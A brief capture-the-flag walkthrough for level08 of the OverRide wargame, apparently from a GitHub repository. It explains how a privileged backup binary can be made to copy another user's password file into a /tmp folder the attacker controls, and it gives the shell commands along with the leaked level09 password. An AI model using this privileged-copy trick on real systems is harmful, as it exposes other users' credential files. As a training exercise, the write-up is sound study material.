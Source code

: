## WALKTHROUGH - LEVEL08

---

After examining the source code, it opens 3 files, **backups/.log**, **argv[1]**,**backups/ + argv[1]**.  
If we sucessfuly open these three, it will write to
**backups/ + argv[1]** the **content of argv[1]**.  
So if we pass **/home/users/level09/.pass**, it should write the password to
**backups/home/users/levle09/.pass**.

So, if we recreate the same folders in /tmp (for permissions), it should work.  
The payload is as follow :

```sh
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ touch backups/.log
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
